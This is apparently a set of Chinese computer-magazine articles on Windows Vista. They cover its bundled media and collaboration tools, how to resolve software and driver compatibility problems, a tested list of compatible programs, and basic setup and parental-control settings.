如果要新建联系人，单击“新建联系人”按钮，打开联系人“属性”窗口，在各个选项卡中输入联系人详细信息即可。如果要为联系人添加头像，要在“姓名和电子邮件”选项卡下单击联系人头像，在下拉菜单中选择“更改图片”。

我们还可以单击“创建联系人组”按钮，创建联系人组，将多个单独的联系人合并到一个组中。这样你便能够将电子邮件一次发送到多个联系人，远比向电子邮件中逐个添加联系人姓名容易得多。

注意：如果从Windows XP升级到Windows Vista，则“Windows通讯簿”中的每个联系人都将自动存储在“Windows联系人”中。

当需要查询某个朋友的电子邮件地址或电话号码时，可以在“Windows联系人”中双击他的头像，打开其属性窗口，找到需要的信息，在属性窗口中可对联系人信息进行编辑。如果联系人很多，找起来会有一定的麻烦，这时可以在上方“搜索”框中输入联系人的相关信息的关键字，如：名字、昵称、Email地址等等，将会快速找到此联系人。

在“Windows联系人”中，选中某个联系人后，单击“电子邮件”按钮，将会调用Windows Mail给该联系人发送邮件。而在Windows Mail中创建电子邮件时，也可以调用“Windows联系人”来选择收件人。

我们还可以很方便地与其他人共享“Windows联系人”中的联系人信息：要导入别人发送给你的联系人信息，则可单击工具栏上的“导入”按钮并进行相关操作；要将联系人信息发送给他人，则可单击工具栏上的“导出”按钮导出联系人信息，然后将导出的文件发送给对方即可。这个功能是非常有用的！你不必再将诸如电话号码、地址、Email等等一大堆联系人信息键入到电子邮件中发送给别人，也无需将别人发送给你的联系人信息逐个输入到“Windows联系人”中。

在Vista中，“Windows联系人”、“Windows Mail”及“Windows日历”进行了很好的整合，使用起来非常方便。

## 十八、Windows会议室

Windows会议室是Vista中的新元素，旨在让用户能够更轻易地进行协同工作。通过Windows会议室，可以与最多十个用户共享文档、程序甚至是自己的桌面。Windows会议室也能够应用在无线网络中，即使没有通路点。

注意：所有Windows会议室的参加者所使用的电脑都必须使用的是Windows Vista。

从“开始”菜单→“所有程序”→“Windows会议室”启动“Windows会议室”。单击“开始新的会议”，输入会议名称、设定密码并回车即可新建会议。

单击“邀请他人”或使用“邀请”菜单，可以通过两种形式邀请他人参加会议：一、发送电子邮件，将会调用Windows Mail邮件程序给被邀请人发送邀请文件；二、创建邀请文件。其实这两种方式的本质是一样的，都需要将邀请文件发送给被邀请人。被邀请人在收到邀请文件后，双击邀请文件，即可启动Windows会议室程序，输入密码后即可加入该会议。

在Windows会议室程序中，会议参与者可以添加讲义，共享自己的桌面或程序。其他会议参与者可以查看并保存讲义，并能实时看到他人共享的桌面或程序操作。会议发起者还可以将共享会话的控制权赋予他人：在屏幕的右上角单击“赋予控制”即可；若要取回共享会话的控制权，请单击“取得控制”。在会议中进行共享时，还可以连接到网络投影仪：在屏幕的右上角，单击“连接到投影仪”（见图29）。



结语：使用 Windows 会议室时完全可以放心，会议中的全部通信都会加密，只有通过身份验证和授权的参加者才能看到共享的所有内容。

## 十九、最新的媒体播放器：Windows Media Player 11

在 Vista 中推出的 Windows Media Player 11（以下简称 WMP 11）并没有什么太大的改动，它的使用方法也是广大用户所耳熟能详的，下面就介绍一下它的特色和使用技巧。

### 1. 外观和播放

和上一版相比，WMP 11无论在界面的精致程度还是整体的布局上，都要强出老版本许多，而且它的界面风格与 Vista 一样，外观既简洁又大气（见图30）。



为了简化 WMP 11的界面，默认情况下是不显示“经典”菜单的，但我们可以通过按 Alt键，或右键单击播放框架上的任何位置来访问“经典菜单”，如果你想让 WMP始终显示“经典菜单”，可以在打开菜单的时候，选择“显示经典菜单”命令。

WMP 的基本使用方法很简单：在多媒体文件上右击，选择“播放”命令，即可将其在 WMP中打开并播放；你也可以在 WMP中使用“打开”→“文件”命令，来打开要播放的多媒体文件。令人遗憾的是，WMP 11中仍然不支持 APE音乐格式。

> 提示: APE 是目前世界上惟一得到公认的音频无损压缩格式，在音质不降低的前提下，大小压缩到传统无损格式 WAV文件的一半；而在音质上超越一般的 MP3，接近和 CD 相同的音质，并且可烧录成与源介质有相同音色品质的 CD。APE得到了全世界发烧友的公认，聆听 APE将使你如临天籁胜地，更好地理解到音乐所要表达的内涵。暴风影音和千千静听都支持 APE格式。

使用 WMP 11，你可以在在线商店中查找和订阅音乐、视频、广播节目以及其他内容。可对订阅内容执行的操作因商店而异，这些操作包括播放、下载到电脑、购买、刻录和将内容同步到便携播放设备等。浏览商店的步骤如下：选择“查看”→“在线商店”→“浏览所有在线商店”，可以显示一个列出所有可用商店的网页（可用的商店取决于你的位置）。单击你感兴趣的商店，播放机将显示该商店。如果希望定期返回到该商店，可通过单击“在线商店”选项卡下的箭头，然后单击“将当前服务添加到菜单”，将其标记为收藏夹。找到喜欢的商店后，你可以注册并开始购物。在 WMP 11中，可用的商店显示为媒体库中的一个类别，你可以像访问另一个媒体库一样访问这些商店中的内容。例如，你可以从商店拖动文件以创建要刻录的文件列表。你还可以搜索商店中的所有内容。商店提供的音乐通常受媒体使用权限保护，该权限指定你可对音乐进行的操作。例如，不能将该文件刻录到音频 CD，或者可能会限制文件被刻录到音频 CD 或同步到便携播放设备的次数。每个商店都会针对其提供的内容指定其授予你的权限。

使 WMP 11还可以收听在线广播：使 WMP 11显示经典菜单，选择“查看”→“在线商店”→“Media Guide”，可以连接到 www.windowsmedia.com，它集成了 Music、Movies、Radio等页面。单击 Radio链接即可收听众多不同风格的电台，不过可惜的是这些电台都是英文的。但对于正在学习英语的朋友来说这可以说是不可多得的资源。你也可以欣赏在线视频。

跟前面的版本一样，在使用其他程序时，可以将 WMP 11始终保持在前端显示，方法是：单击“正在播放”选项卡下的箭头，然后单击“更多选项”，在“播放机”选项卡上，选择“将播放机保持在其他窗口的前端”复选框。

WMP 11的默认界面虽然漂亮，但也会消耗一定的系统资源。事实上，播放音乐的时候，完全没有必要使用默认的大界面，这时只要单击右下角的切换按钮，就能马上转换到另一个简洁的小界面上，这是 WMP 11的最小模式，再次单击切换按钮可以回到完整模式。

我们还可以给 WMP 11选择外观。使用“视图”→“外观选择器”命令，可以看到有两个皮肤可以选择：Revert 和“公司”，双击皮肤或选择后单击“应用外观”按钮即可将其应用，还可以单击“更多外观”，联网下载更多皮肤。“Revert”皮肤很有意思，它能自动“隐身”，当我们将光标悬停在窗口上面时，整个界面会变得非常清晰，而一旦光标离开界面一会，它就会变得“透明”起来，不会影响你查看其他窗口。“公司”皮肤使用类似 Windows Media Player Classic的经典界面。在这些外观模式下，右击播放界面并选择“切换到完整模式”，即可回到默认的播放界面。

### 2. “媒体库”

如果仅仅只具有播放功能，那么大部分用户都会觉得我还不如使用“暴风影音”和“天天静听”呢，它们用起来更简单，有些功能甚至还超过了 WMP。WMP当然不只是这么简单！与其他媒体播放器相比，WMP还有很强的管理功能——媒体库，它应该算是 WMP的“精髓功能”了。有了它，硬盘上有再多的音乐，也能在很短的时间内找到想要的歌曲。WMP 11 媒体库的变化很多，除了常规的音乐、视频外，还融入了图片、电视；采用的分级查看方式，可以更轻松地管理媒体库。值得一提的是，WMP11 可以对同一专辑的媒体文件进行归类，并且以唱片集方式进行查看。另外，媒体库中的专辑支持自动下载专辑图片，使得用户更容易辨认。

当 WMP 11 刚装好的时候，“媒体库”功能还无法被使用，我们还需要再做一些简单的设置。

单击工具栏上的“媒体库”按钮，选择“添加到媒体库”命令，从电脑上选择要添加到“媒体库”里的音乐文件：如果 Vista 系统只有一个账户，则选择“我的个人文件夹”；如果有多个账户，则可以选择“我的文件夹以及我可以访问的其他用户的文件夹”。然后单击“高级选项”按钮展开高级选项，可以看到 WMP 自动添加了一些被监视的文件夹。WMP 就算再智能，也会遗漏掉一些包含音乐文件的文件夹，单击“添加”按钮选中它们；如果不想将某个已被监视的文件夹添加到“媒体库”，可以选中它再单击“删除”按钮。如果你要监控的文件具有不同的音量，那么播放起来，音量会时大时小。你可以选中“为所有文件添加音量调节”。这样在将文件导入到媒体库的时候，WMP 11 会自动判断音乐文件的音量等级，并将其调整到一个适中的状态。

最后单击“确定”按钮，WMP 11 会将选中的音乐文件导入到“媒体库”中。

以后，只要单击 WMP 11 的“媒体库”按钮，就可看到媒体库里的所有多媒体文件，双击文件即可播放。除此之外，我们可以利用媒体库的强大功能对音乐文件进行分类管理了。媒体库的最左侧是分类筛选区，我们可以在这里根据音乐类型分类查找。顶端设有一个搜索栏，用户只要在这里输入音乐名称、艺术家名字或关键字，WMP 11 就能迅速帮我们查找到相关记录。中间是 WMP 11 的筛选结果显示区，所有被搜索到的曲目都会显示在这个位置。

我们还可以对音乐进行一些更细致的管理。比如，当我们想对一首音乐进行删除、评级或者修改 ID3（包含在 MP3 音乐文件中的其他相关信息，包括音乐名称、作者、专辑名称等）信息等操作时，就可以直接在音乐的上方单击鼠标，然后再到右键菜单中选择相应的命令，非常方便。

另外，我们还可以根据喜好，创建自己的播放列表。单击左边窗格的“创建播放列表”（如果此时右边没有显示播放列表，可以单击右上角的“显示列表窗格”命令使其显示），然后将媒体库中的音乐拖放到播放列表中，你也可以从“资源管理器”中拖放音乐到播放列表中，最后单击“保存播放列表”按钮即可。以后只要双击左边窗格“播放列表”下的对应播放列表，就可以轻松实现连续播放了。

### 3. CD 转录

喜欢音乐的朋友都会珍藏不少 CD。不过，像 CD 这类东西，即使保养得再精心，多次使用后也会造成一些磨损。每次播放时，都要插入 CD 碟片，也让一些“懒人”朋友觉得麻烦。其实，你不妨将这些 CD 里的音乐转录到电脑中，以后播放就方便了。另外，现在 MP3 播放器非常普及，想要将 CD 里的音乐转到 MP3 上播放，也需要进行转换工作。

其实，不需要第三方软件，在 WMP 11 中转录 CD 是件非常容易的事。在光驱中插入 CD 碟片，WMP 11 会自动播放 CD 音乐，并联网去下载该 CD 的所有曲目信息（WMP 11 的新功能）。随后，当我们单击工具栏上的“翻录”按钮，就可以在曲目列表中通过复选框来决定最终要转录的歌曲。等准备妥当，再单击“开始翻录”按钮即可正式启动转换操作。

默认情况下，WMP 将会把 CD 音乐翻录为“Windows Media 音频”（即 wma）格式，保存在“音乐”文件夹中，我们还可以对翻录选项进行设定。单击“翻录”按钮下的三角形按钮，选择“更多选项”命令，会自动定位到“翻录音乐”选项卡，在这里可以更改翻录音乐的保存位置、翻录格式等选项。

除了当前的音乐翻录格式选项（Windows Media 音频 (WMA)、MP3、Windows Media 音频 (可变比特率)、Windows Media 音频 (无损)），Windows Media Player 11 还引入了两个新选项：Windows Media Audio Pro 和 WAV (无损)。

### 4. 刻录音乐光盘

刻录音乐光盘的机会不多，但是有时候还是会遇到：例如，有车一族可以把电脑里的 MP3 刻录成 CD 光盘，在汽车音响上播放；又如，如果喜欢听评书，可以将评书刻录起来在车上听了。

首先，在刻录机里放入空白刻录盘，然后启动 WMP 11，单击工具栏上的“刻录”按钮，在下拉菜单中选择是刻录“音频 CD”还是“数据 CD 或 DVD”。这里以刻录“音频 CD”为例，将媒体库中要刻录的歌曲拖拽至右边的“刻录列表”中，如果刻录盘容量不够了，在“刻录”表中就会出现“下一光盘”的目录，换句话说就是你所选择的歌曲需要刻录成为两张光盘，最后单击“开始刻录”按钮即可。

下面解释一下几种音乐光盘之间的区别，以便读者自行选择。

- （1）音频 CD。以标准音频格式刻录音乐 CD。可以在大多数电脑、家庭和车载 CD 播放机中播放。可以按 WMA、MP3 或 WAV 文件格式刻录音频 CD。
- （2）数据 CD。可以存储大约 700MB 的音乐或视频文件。如果要备份数据文件，数据 CD 也很有用。但请切记，有些 CD 播放机和电脑不能播放数据 CD 或其中的某些文件类型。
- （3）数据 DVD：可以存储更多的内容，单面单层的数据 DVD 可以存储约 4.7GB 的音乐、视频或数据文件。双面单层或单面双层的 DVD 光盘存储容量翻倍增大到 9.4GB。双面双层的光盘甚至达到 18.8GB 容量。

音频 CD、数据 CD 和数据 DVD 的刻录格式可以单击“刻录”下方的小三角，选择“更多选项”命令，将会自动定位到“选项”对话框下的“刻录”选项卡，在“数据光盘”下有两个选项：WPL和M3U，默认使用WPL。WPL格式可以创建动态播放列表，而M3U格式则不能创建动态播放列表。M3U可以把MP3做成列表交给播放器播放，但是如果你想把视频和音乐放在一起播怎么办？现在你需要WPL播放列表。

### 5. 歌曲同步

通过WMP 11的歌曲同步，用户可以将MP3播放器、支持MP3功能的手机、PDA等便携播放设备连接到电脑，然后使用同步功能进行音频文件的传送。

当同步功能所支持的便携播放设备连接电脑后，在WMP 11就会自动搜索到，并显示剩余容量。第一次连接时，WMP 11还会让你为设备命名，以便识别。WMP 11支持两种同步方式：自动同步和手工同步。

（1）自动同步

如果便携播放设备的储存容量很大，你自己又不知道想要将哪些音频文件同步到设备，那么可以试试看WMP 11的自动同步功能，该功能会按照一定的规律往你的便携播放设备中传送音频文件，直到将设备的所有空间都占满。

自动同步的具体步骤如下：首先将便携播放设备连接到电脑，然后启动WMP 11，单击“同步”按钮下方的三角形箭头，在下拉菜单中指向设备名称，在弹出的子菜单中选择“设置同步”。接着选中“自动同步该设备”，WMP 11会自动添加一些播放列表到右侧的“要同步的播放列表”中，你可以删除不想要的播放列表，也可以选择新建自动播放列表，最后单击“完成”按钮，你会看到“正在同步”的画面，也就是说WMP 11正在自动传送。

以后，每当你将该便携播放设备连接到电脑后，WMP 11都会自动按照你的设置将“要同步的播放列表”中的内容同步到便携播放设备。当然，列表中的内容是动态变化的，那么同步到设备的内容也就是动态变化着的。自动同步的好处是：免去一味的复制、粘贴，还能将你平时播放频率最高的歌曲自动添加到便携播放设备中。

注意：一、虽然“要同步的播放列表”中可能包含了音乐、视频和相片等多种不同类型的媒体文件，但具体同步哪些类型还要取决于你的便携播放设备的类型。如果某便携播放设备只能播放音频文件，那么WMP 11就不会将视频和相片同步到该设备。二、如果从WMP 11的媒体库中删除了已同步的文件、播放列表或类别，则下次进行歌曲同步时会在便携播放设备中删除相关的内容。

（2）手动同步

如果你是有目的地希望传送一些音乐到便携播放设备，那你应该选择WMP 11的手动同步功能。该功能的使用是相当简单的，用户在WMP 11的“媒体库”中选择好歌曲后，将歌曲拖放到右边的“同步列表”中，随着文件的添加，WMP 11窗口右上角的设备图标下方将会持续统计设备上的剩余空间，最后只需单击“开始同步”即可复制音乐到你的外接硬件设备当中。

可以看出，歌曲同步也是由WMP 11的“媒体库”配合完成的。当我们打算将喜欢的歌曲快速发送到MP3播放机中时，这项功能便可以大大提高我们的操作效率。其实，我们也可以不通过WMP 11，而是使用资源管理器，直接将歌曲拷贝到外接硬件设备中。只不过WMP 11的歌曲同步功能利用了“媒体库”的强大功能，可以快速查找到自己想要的歌曲，而且，同步完成后，MP3上的歌曲文件也能直接被WMP 11所管理。

如果你的硬件设备不能被WMP 11识别，可以在WMP 11中单击“同步”下的三角按钮，选择“更多选项”，然后单击“在网上查找”设备，联网到微软网站，下载对应的插件使WMP增加对此硬件设备的支持。

结语：WMP 11相比以前版本已经更加成熟了，它所提供的几乎就是一个小型媒体中心的功能。作为微软目前为止功能最强的音乐点唱机，WMP 11大有与苹果iTunes分庭抗礼的架式。不过，作为一款音乐播放器，WMP 11仍然无法直接播放APE歌曲，这多少会有些令人遗憾。

## 二十、制作电影：Windows DVD Maker

我们知道微软在Windows XP系统中提供了一个视频制作软件Movie Maker，但遗憾的是输出格式只有一个选择——WMV。而用户往往想把自己的作品在家用DVD机上播放，因此微软也只能尴尬地在其网站上说明如何用第三方刻录软件将Windows Movie Maker制作出的视频刻录为DVD视频光碟。

在用户的要求下微软终于在新一代操作系统Vista中绑定了DVD制作软件Windows DVD Maker。Windows Vista家庭高级版和Windows Vista旗舰版都提供了Windows DVD Maker，你可以使用它来为你的家庭电影和照片制作具有专业外观的视频DVD，并可以在任何DVD播放机上播放它们，而不必考虑地区代码。DVD Maker将支持NTSC/PAL电视格式，以及标准的4:3及16:9宽屏输出。该软件还提供了漂亮专业的菜单模版。

不过，DVD Maker并未提供视频编辑功能，因此用户仍然可以采用Windows Movie Maker编辑视频然后再导入到DVD Maker中，加入DVD菜单最后输出为DVD格式（图31）。

## 二十一、媒体中心：Windows Media Center

相信有不少读者知道MCE这个概念，它的全名是Windows XP Media Center Edition，是架构在Windows XP之下的影音娱乐全新平台。在Windows Vista推出之前，MCE一直被微软公司当作一个独立的产品进行销售。在Vista时代，微软公司将MCE直接整合进了Windows Vista家庭高级版和Windows Vista旗舰版中，它就是Windows Media Center！

Windows Media Center无疑是世界上功能最强大、界面……## Vista 完全攻略



图 31 Windows DVD Maker

面最华丽的家庭影院系统之一。你可以使用遥控器轻松欣赏你的音乐、照片、电视、电影和最新的在线媒体，用家电化的方式控制和使用电脑，你还可以把节目录制成视频DVD，它甚至为一些有条件的用户提供了数字电视服务。不过，Windows Media Center这个系统平台对硬件配置的要求十分的苛刻。如果你想要体验它的全部功能和绚丽效果，你的电脑至少配备有一块通过MCE认证的电视转换卡和一块功能强劲的显卡，并安装好最新的驱动程序。

你可以通过“开始”菜单→“所有程序”→Windows Media Center来启动Windows Media Center。第一次运行Windows Media Center时，你不需要花费时间搜索你的媒体文件，因为Windows Media Center会在安装过程中自动搜索你电脑上的媒体文件。

进入Windows Media Center后，首先显示的是主界面，主菜单处于屏幕的正中，选项从上到下依次排列。二级菜单处于屏幕的中部，横贯主菜单，与主菜单相交，相交处正是被高亮选中的主菜单项（图32）。



### 1. 音乐

进入Windows Media Center后，选中“音乐”主菜单，让我们先来看看最常用的“音乐库”部分。Windows Media Center把每个艺术家的专辑和歌曲都使用自己封面显示，看上去就像一个使用音乐封面摆满的点唱机。使用遥控器选择一个专辑，然后选择“播放唱片集”就可以享受你的音乐了。如果你想欣赏音乐库里的所有音乐，则在“音乐”主菜单下选择“播放全部”即可。

在“音乐库”中，可以选择多种方式来显示音乐文件：艺术家、风格、歌曲、播放列表等都可以。在“音乐”主菜单下，可以选择“收音机”来收听广播，还可以选择“搜索”来快速找到想要的音乐。

### 2. 图片 + 视频

在“图片 + 视频”主菜单下共有三个二级菜单：图片库、播放全部、视频库。我们来看看“图片库”。在“图片库”中，有三种方式来查看图片：文件夹、标记和拍摄日期。如果你在“Windows照片库”里对照片进行过详细的标记，那么这里使用“标记”方式来查看图片就非常方便了。选中要查看的图片类别后，还可以按两种方式来查看图片：按名称、按日期。另外，Windows Media Center还可以使用流行的播放幻灯的方式浏览图片，并且自动加入漂亮的转场效果，比如淡入淡出、远近摇镜、放大缩小等。你可以在显示器上或者电视机上查看这些图片；而且，如果家人或朋友们喜欢，还可以刻录成DVD来分享。“视频库”的使用方法类似。如果要偷懒，可以在“图片 + 视频”主菜单下选择“播放全部”，查看电脑上的所有图片和视频文件。

如果Windows Media Center中遗漏掉了你的多媒体文件，你可以选择将它添加进来：选择“任务”主菜单，再选择“设置”二级菜单，再选择“媒体库设置”，然后根据向导，把要监视的文件夹添加进来，也可以停止对某个文件夹的监视。

通过上面的示例和说明，相信读者已经对Windows Media Center有了一个直观的了解。其实，Windows Media Center并不难上手，相信广大用户都能轻松掌握它。以下就不再赘述它的其他功能和具体使用方法了。

结语：有的朋友会问，Windows Media Center平台的应用都可以用其他方式去完成，为什么还要用它呢？那我可以明确地告诉你，在Windows Media Center下，任何操作都可以用遥控器进行！就算你躺在沙发上，也可以在大屏幕显示器或电视上欣赏音乐、照片、电视、电影……而这一切只需要用遥控器来完成，这是何等惬意的事情啊！

> 总结篇：Windows Vista不愧是史前最强大的Windows操作系统，有太多值得挖掘的应用和技巧，本文只是总结了它内置工具的大部分应用，如有疏漏之处，还望指出。

# Vista 软件攻略

文 / 胡鹏

在亿万用户的瞩目当中，微软发布了 Windows Vista 简体中文版本。虽说，相比以前的系统，Vista 拥有了更多优异的性能，但由于系统结构发生了巨大变化，使得一些原本在 Windows XP 下运行得很好的软件，都无法在 Vista 中正常工作了。本文将努力帮助用户解决软件兼容方面的问题。

## 一、驱动问题

Vista 系统自带了海量驱动程序，但还是会遇到某些硬件没有办法识别的情况。这时应该首先对 Vista 进行 Update 工作，因为 Windows Update 可以安装设备可用的所有更新的驱动程序软件。

如问题没有解决，应该去硬件厂商的官方网址或驱动之家网站 (www.mydrivers.com) 查找这个硬件设备有无最新的支持 Vista 的驱动程序。你还可以参考以下这个网址：http://news.mydrivers.com/1/60/60845.htm，它把近期一些重要厂商发布的支持 Vista 驱动进行了整理和分类，方便大家下载使用。

如果这个硬件没有支持 Vista 的专用驱动，你可以尝试为这个配件安装 Windows XP (或 Windows 2000) 版的驱动程序，一般情况下也能解决问题。

## 二、程序不兼容问题

有一些程序在 Vista 下运行存在一些问题，甚至完全无法运行，这时该怎么办呢？首先，应该寻找这个程序的升级版本，如果找不到的话，有两种方法可以改变程序的兼容性。

### 1.用兼容模式运行程序

在你不能顺利执行程序的可执行文件 (或者快捷方式) 上单击右键，选择“属性”命令，再单击定位到“兼容性”选项卡，将“兼容模式”选择为“Windows XP (Service Pack 2)”或者其他。现在试试，是不是你的程序能够顺畅的执行了？如果还是有问题，可以试着调整“设置”下的参数，它们的解释如下：

+ 用 256 色运行：在程序中使用的是限制的颜色。一些比较早的程序是为使用较少的颜色而设计的。
* 用 640 × 480 屏幕分辨率运行：在更小的窗口中运行这个程序。当图像用户界面呈锯齿状或有不适当时可以使用这个设置。
* 禁用视觉主题：禁用程序中的主题。如果你在程序的标题栏中发现菜单或按钮存在问题的话，可以使用这项设置。
* 禁用桌面元素：关闭透明效果以及其它高级的显示特性。如果窗口运动或其他显示问题存在，你就可以选择这个设置。
* 高 DPI 设置时禁用显示缩放：如果你使用的是大字体，则关闭自动调节程序窗口的大小。如果大的字体影响到程序使用时可以尝试这个设置。
* 特权等级：以管理员身份运行该程序。一些程序需要管理员身份才能够正常运行。如果你没有登录管理员账户，这个选项是不可用的。

另外，单击“显示所有用户的设置”按钮，可以让你所选择的设置对所有使用这台计算机的用户都应用生效 (见图1)。



### 2.使用程序兼容性向导

打开 Vista 的帮助文件，在“搜索”框中输入“Compatibility”并回车，然后单击“启动程序兼容性向导”，然后单击“单击打开程序兼容性向导”，即可打开“程序兼容性向导”。

单击“下一步”按钮，选择查找有兼容性问题的程序的方式，选择方式有三种：从程序列表选择；从光盘中选择；手动查找。找到有兼容性问题的程序后，单击“下一步”按钮，选择程序的兼容性模式为“Microsoft Windows XP（Service Pack 2）”（见图2）。



再单击“下一步”按钮，选择“显示设置”，这些选项已经在上一种方法中解释过了，用户可以根据程序出现兼容性问题的表现来选择（见图 3）。



单击“下一步”按钮，在这里向导提示：如果根本无法运行程序，而你是这台计算机的管理员，可以选中“以管理员身份运行此程序”来试试。然后，程序兼容性向导会自动打开程序试运行，如果问题已解决，可选择“是，将这个程序设置为始终使用兼容性设置”，否则的话可以继续尝试其他兼容性设置或放弃。

接着，你要选择是否将此次操作的信息发送给微软，最后单击“完成”按钮完成操作。

其实，上述两种方法的本质是一样的，只是操作方法略有不同而已，而第二种方法操作起来麻烦得多，建议尽量使用第一种方法。

另外要提示读者的是，在 Vista 系统中还有一个“程序兼容性助手”的东西，它用于检测旧版本程序中的已知兼容性问题。在 Vista 中运行旧版本程序后，“程序兼容性助手”将通知你是否存在问题，并在下次运行该程序时修复该问题。如果兼容性问题很严重，则“程序兼容性助手”可能会发出警告或阻止程序运行。如果发生这种情况，你可以选择联机检查可能的解决方案（见图 4）。

## 三、与 Vista 完美兼容的软件

在 Vista 下哪些软件能顺利运行，哪些存在兼容性问题呢？读者一定很想知道这个问题的准确答案。为了获得第一手真实材料，作者筛选出一些比较流行的软件，并将它们安装到 Windows Vista 中进行了逐一测试，最终获得了这份兼容性测试报告，希望能够给大家带来一些帮助。



### 1.常用工具

（1）以下常用软件与 Vista 完美兼容：

+ FlashGet 1.8.4、迅雷 5.6.2.300、比特精灵 BitSpirit 3.2.2.122、BtComet 0.88（从 0.81 版即兼容）
+ QQ 2007 Beta 1、雅虎通（yahoo!messenger）8.2、新浪 UC 2006、Google Talk V1.0.0.92、网易泡泡 20060928
+ Photoshop CS2、WinRAR 3.62、暴风影音 2、暴风影音 2007、RealPlayer v10.6 Build 6.0.12.1741 简体中文版、RealOne Player 2.0、千千静听 5.0、金山词霸 2007、Foxmail 6.0 Beta 4、Firefox 2.0、Opera 9.0、
+ 至于 Windows Live Messenger 8.1，它是 Vista 中捆绑的 IM 软件，当然不会有兼容性问题了。

（2）以下常用软件与 Vista 存在兼容性问题：

+ ACDSee 9.0 Build 55、Skype 3.0.0.198、。

### 2.杀毒软件

（1）以下杀毒软件和 Vista 完美兼容：

+ 金山毒霸 2007、瑞星杀毒软件 2007、江民 KV 2007、Mcafee VirusScan Ver8.5、NOD32 2.7

（2）以下杀毒软件和 Vista 存在兼容性问题：

+ Symantec AntiVirus 10.1.4.4000、Kaspersky 6.0.2.620、NOD32 2.51、PC-cillin 2007、Norton 2007

另外要说明的是，360 安全卫士（不算杀毒软件）也和 Vista 完美兼容。

### 3.办公软件

Office 2007 不用说了，专门为 Vista 系统而准备的，完美兼容。Office 2003 也和 Vista 系统完美兼容，这点倒是给了作者一点惊喜。另外，Open Office 2.1、WPS Office 2005 也与 Vista 完全兼容。

说明：如果一个软件的现有版本与 Vista 兼容，那么后续的版本就几乎不可能出现兼容性问题，可以放心使用。

结语：Windows Vista 还是一个新生事物，会遇到那样的问题，例如程序兼容性方面的问题，其实当年 Windows XP 刚推出时也遇到过同样的问题，相信很快这些问题都会得到完美的解决。

# Windows Vista 的设置、调整全程攻略

文 / 王志军

相信很多朋友都用上了 Windows Vista，和 Windows XP 一样，如果你希望能够获得更好的体验，那么必要的设置和调整自然是免不了的，那么你是否也能像 Windows XP 时代那样对 Vista 进行一番调校呢？这里，我们以最高等级的旗舰版本为例，介绍一些比较实用的设置和调整方法：

## 一、设置攻略

这里必须指出的是，虽然同样出自于微软这颗大树，但 Windows Vista 相对于 Windows XP，无论是界面还是操作方式都有了很大的变化，因此在设置方面也有一些讲究。

### 1. 添加更多的桌面图标

默认设置下，桌面上只有“回收站”这一个图标，我们所熟悉的其他对象都被自动隐藏起来，这样操作可实在是太不方便了。因此，首次进入桌面后的第一件事情就是赶快将这些被隐藏的图标找出来：

右击桌面，选择“个性化”，然后在弹出窗口中的左侧任务窗格中选择“更改桌面图标”，如图 1 所示。现在你需要做的就是将相关的复选框选中，确认后就可以在桌面上看到熟悉的图标了，当然快捷方式的名称是有所变化的啦。



### 2. 激活 Windows 边栏

如果你已经用上了 Windows Vista，那么除了美伦美奂的 Aero 主题之外，屏幕右侧的 Windows 边栏可也千万不能错过呢。不过，默认设置下这个边栏并不会自动启用，请单击开始按钮，从“所有程序→附件”中选择“Windows 边栏”，或者进入控制面板，在这里选择“外观和个性化→Windows 边栏属性”，单击“将小工具添加到边栏”，然后就可以在屏幕右侧看到图 2 所示的边栏了，如果你使用的是宽屏显示器，那么效果是非常出色的。

内置的工具库提供了日历、时钟、天气、联系人、幻灯片放映、股票、货币、便笺等多个小工具，链接到 http://vista.gallery.microsoft.com/vista/SideBar.aspx?mkt=zh-cn 还可以下载更多的小工具，不过第三方开发的小工具也是非常不错的，例如 PPLive、极品时刻表、天气与生活、青檬网络电台等，安装这些小插件后，我们可以在边栏中看精彩电视、速查火车时刻表，还可以收听网络电台，占用的资源也不多，可以说是相当的实用。


### 3. 家长控制

现在家庭中拥有计算机的应该不在少数，家境稍好的甚至会拥有 2-3 台，台式机、笔记本一应俱全。Vista 的“家长控制”可以用来全面控制和监视孩子对计算机的使用。你可以指定孩子允许访问的网页和允许玩的游戏，可以禁止下载文件，最实用的还是限制孩子使用计算机的时间，也就是说只分配给他有限的时间去使用计算机。

如果你已经安装了 Windows Vista，那么请按照下面的步骤进行操作，并不需要很多的时间：

（1）提升权限

在首次登录系统时，系统会提示用户创建一个账户，这个账户就是允许设置计算机以及安装所有程序的管理员账户，不过部分朋友进入系统后可能会基于安全角度的考虑以标准账户进行操作，如果是这种情况，请注销后重新以管理员账户进行登录，否则不仅将处处受到 UAC (用户账户控制) 的限制，而且将无法使用家长控制的功能。

（2）添加账户

+ ①进入控制面板，我们会在这里发现“用户账户和家庭安全”，单击“添加或删除用户账户”进入下一窗口。
②单击窗口下方的“创建一个新账户”，此时会弹出一个对话框，请选择“标准用户”，然后单击右下角的“创建账户”按钮，就可以为你的孩子分配一个标准权限的账户。
③如果你有多个孩子，那么请重复上述步骤继续创建账户。

（3）设置密码

账户添加成功后，系统会自动返回上一级窗口，从这里可以看到刚刚创建成功的普通权限账户。不过，接下来我们还需要为管理员账户设置密码，虽然这个账户已经是最高权限的 Administrator，但如果没有密码的话，恐怕还是形同虚设，那样“家长控制”的功能就完全失去意义了。

#### （4）设置“家长控制”

做好了上面的准备工作，接下来我们就可以设置“家长控制”的相关选项：

选择一个准备进行控制的账户，然后进入用户控制窗口，首先需要在这里选择“启用，强制当前设置”以启用家长控制功能，这样才可以使用下面的各个选项，也就是你才可以去控制孩子使用计算机的相应方式。

+ 小提示：在默认设置下， Vista 会自动启用活动报告功能，这样可以在后台自动记录孩子使用计算机的所有操作，包括访问的网站、玩过的游戏、使用过的应用程序等，虽然有侵犯隐私的嫌疑，但相信孩子可以理解。

默认设置下，启用家长控制后，“孩子”账户除了访问 Web 页面有一定的限制之外，在时间限制、游戏分级、程序限制这些方面都没有做出限制，这显然是不现实的，建议家长们对这些方面做出相应的限制：

##### ① Web 筛选

这里提供了非常强大的功能，你可以指定孩子允许访问的网站和允许进行的在线操作，当孩子使用自己的账户登录系统后，如果访问了被限制的网站，那么他会看到图 3 所示的提示框。



##### ② 时间限制

平常时候，我们可以设置让孩子只能在周六、周日的白天使用计算机，至于寒、暑假可以适当灵活一些。

如果在分配的时间结束之后，这个账户仍然处于登录状态，那么系统将自动注销。

如果只允许孩子在周六和周日使用计算机，当孩子登录系统后会在系统托盘处看到图 4 所示的提示，这样就会时时得到提醒。



##### ③ 游戏控制

Vista 的“游戏”组件提供了很多好玩的游戏，应当说其中有些游戏还是非常不错的，但孩子们的自控能力毕竟不如成年人，游戏玩起来容易上瘾，因此还是应该适当给予限制。

